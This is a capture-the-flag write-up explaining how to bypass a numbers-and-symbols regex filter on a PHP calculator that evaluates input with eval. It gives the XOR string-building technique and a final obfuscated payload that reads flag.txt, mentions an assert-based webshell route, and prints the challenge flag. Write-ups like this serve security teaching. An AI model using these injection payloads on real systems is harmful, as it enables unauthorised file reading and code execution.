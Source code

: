 # Writeup  
We have a form to insert equations into; it will evaluate them and return back
the result.

![landing_page](https://github.com/pwnthenope/pwnthenope.github.io/blob/main/static/post_images/most_secure_calculator_2.png?raw=true)

In source page's HTML comments, we can see that only number and special chars
are allowed:

```  
<--  
Hi Selina,  
I learned about regex today. I have upgraded the previous calculator. Now its
the most secure calculator ever.  
The calculator accepts only numbers and symbols.  
I have hidden some interesting things in flag.txt and I know you can create an
interesting equation to read that file.  
-->  
```

By interacting with the site, we can also learn that the maximum number of
characters allowed in an equation is 79.

We also learn, by submitting a single special char, that the equation is
evaluated using ```eval``` PHP function, for example from this warning:

```  
Result:  
Warning: Use of undefined constant _ - assumed '_' (this will throw an Error
in a future version of PHP) in /var/www/html/index.php(12) : eval()'d code on
line 1  
_  
```

We can inject code by using variable functions; but we have a problem: we can
only use built-in PHP functions as variable functions, because PHP ```eval```
actually doesn't allow variable functions.

For example we can use ```assert``` to escape from ```eval``` limitation on
variable functions, crafting some payload that results in
```assert($_POST[_])```; it would allow us to gain a webshell.

But there is chance that the code is in production mode, i.e.
```zend.assertions = -1``` (check PHP docs about assert).

So it's easier to craft a payload that results in
```file_get_contents("flag.txt")```.

A note about that: since we'll build the payload by putting strings together,
actually we don't need to craft the double quotes around ```flag.txt```.

Now, a strategy is the usage of XOR function to obtain alphabetic strings by
putting together strings composed of numbers and special chars.

For example:

```  
('%'^'`')  
```

Results in: ```E```.

Can we make a function call? Let's check out:

```  
('%'^'`')()  
```

The result is:

```  
Result :  
Fatal error: Uncaught Error: Call to undefined function E() in
/var/www/html/index.php(12) : eval()'d code:1 Stack trace: #0
/var/www/html/index.php(12): eval() #1 {main} thrown in
/var/www/html/index.php(12) : eval()'d code on line 1  
```

Perfect, now we have to obtain ```file_get_contents("flag.txt")```, without
double quotes and with a limit of 79 characters.

After some tries, the final, working payload is:

```  
('@@@@"_@@"@@@@@@@@'^'&),%}8%4}#/.4%.43')(("@@@_"^"&,!8").(".").("@@@"^"484"))  
```

And here's the flag:

```  
KCTF{sHoUlD_I_uSe_eVaL_lIkE_tHaT}  
```

Original writeup
(https://pwnthenope.github.io/writeups/2022/01/22/most_secure_calculator_2.html).